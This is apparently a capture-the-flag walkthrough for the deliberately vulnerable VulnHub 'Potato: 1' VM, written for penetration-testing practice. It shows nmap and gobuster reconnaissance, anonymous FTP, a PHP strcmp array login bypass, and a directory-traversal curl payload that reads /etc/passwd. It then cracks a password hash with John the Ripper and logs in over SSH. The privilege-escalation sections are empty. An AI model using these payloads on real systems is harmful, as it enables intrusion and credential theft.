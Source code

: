 # Potato: 1 Walkthrough

## Preparation
1. Download Potato.ova file ([Potato.ova](https://download.vulnhub.com/potato/Potato.ova))
1. Import the OVA file in the VirtualBox
1. Set the network adapter to Host-only Adapter
![Host-onlyAdapter](./img/potato_server_network.png)
1. Start the Potato virtual machine
![StartPotato](./img/potato_server_initial.png)
1. Confirm the IP address of the Potato virtual machine from the attack virtual machine  
![netdiscover](./img/potato_server1.png)
![PotatoIP-Address](./img/potato_server2.png)
    * 192.168.56.100: DHCP Server
    * **192.168.56.102**: Potato Server
1. Set the Potato IP address to the environment variance  
`export IP=192.168.56.102`  

## Reconnaissance
1. Do portscan using Nmap  
`sudo nmap -sC -sV -Pn -p- $IP -oN nmap_result.txt`  
![nmap](./img/potato_server3.png)
    * -sC: Scan with default script
    * -sV: Show software name and the version
    * -Pn: Do not confirm communication before port scan (We have already confirmed the Potato IP address.)
    * -p-: Scan all ports (from 0 to 65535 ports)
    * -oN: Output the scan results to the specified file
1. As we see the nmap result, we can attempt to log in with AnonymousFTP.  

## Initial Access
1. Access the FTP service  
`ftp $IP 2112`  
![FTP-Access](./img/potato_server4.png)
    * Name: anonymous
    * Password: password (empty is OK)
1. Get index.php.bak and welcome.msg files
![GetFiles](./img/potato_server5.png)
1. Exit FTP service  
Input the `exit`.  
1. Confirm the downloaded files
    - Investigate the "welcome.msg" and confirm the content
    ![Welcome.msg](./img/potato_server6.png)  
    There is no useful information in this file.  
    - Investigate the "index.php.bak" and confirm the content
    ![index.php.bak](./img/potato_server7.png)  
    username is fixed to "admin"  
    default pass is "potato"  
1. Since we know the index.php page and the Nmap result shows the 80 port is open, we find accessible files and directories using Gobuster.
    - Set the 80 port URL to the environment variance  
    `export URL="http://$IP:80/"`  
    - Input the following gobuster command  
    `gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt`  
        * dir: Enumerate directories and files
        * -u: Designate target URL
        * -w: Use dictionary file
    - Find /admin directory
    ![admin_directory](./img/potato_server8.png)
1. Access the /admin page using Burp
    - Proxy -> Intercept -> Intercept on -> Open browser -> Enter "http://192.168.56.102/admin" in the browser  
    - Click "Forward" until Login page is shown
    - Enter "admin" in the User and "test" in the Password and click Login button
    - In the "index.php.bak" file, the password is confirmed using the strcmp() function. In the PHP strcmp() function, we designate an array type, and it causes an error. Unfortunately, "NULL == 0" becomes **True** in PHP specification.
    - Change the input password in the Burp  
    Current: `username=admin&password=test`  
    Changed: `username=admin&password[]=test`  
    ![Burp_password](./img/potato_server9.png)  
    - Change to "Intercept off"
    - Go to the dashboard page and access the Logs page  

## Execution
1. Attempt directory traversal in the Logs page
    - Change to "Intercept on"
    - Select log_01.txt (log_02.txt or log_03.txt is OK) and click the "Get the log" button
    - Change the log_01.txxt file directory  
    Current: `file=log_01.txt`  
    Changed: `../../../../../etc/passwd`  
    ![file_directory](./img/potato_server10.png)
    ![etc_passwd](./img/potato_server11.png)
1. Make /etc/passwd data file using the Cookie pass and curl command
    - Cookie pass is as follows  
    ![Cookie_pass](./img/potato_server12.png)
    - Curl command is as follows  
    `curl -X POST -b "pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh" -d 'file=../../../../../etc/passwd' "http://192.168.56.102/admin/dashboard.php?page=log" | tr '\0' '\n' | cat > etc_passwd.txt`  
        * -X: Designate HTTP method
        * -b: Send Cookie
        * -d: Send form as POST request
        * tr '\0' '\n': Replace null with carriage return
        * cat > etc_passwd.txt: Output the command result in the etc_passwd.txt
1. Analyze the etc_passwd.txt
    - Extract login-enabled users using the following command  
    `cat etc_passed.txt | grep -P 'sh$'`  
    ![Login-enabled-users](./img/potato_server13.png)
        * grep -P 'sh$' is used to search for lines in a file that end with the string sh
        * Login-enabled users have "bash" or "sh" in the 7th field
        * There are "root", "floarianges", and "webadmin" users
    - Extract users who have password hash from the etc_passed.txt file  
    `cat etc_passwd.txt | grep -P 'sh$' | grep webadmin > webadmin_hash.txt`  
    - Decrypt password hash using John the Ripper  
    `john webadmin_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`  
    ![john](./img/potato_server14.png)
        * webadmin password: **dragon**  

## Credential Access for general user
1. SSH access
    - From the Nmap result, as the SSH port is open, we attempt to access SSH
    ![SSH-access](./img/potato_server15.png)
        * password: **dragon**
    - Confirm the home directory and access the user.txt file
    ![General-user-text](./img/potato_server16.png)  

## Privilege Escalation


## Credential Access for root user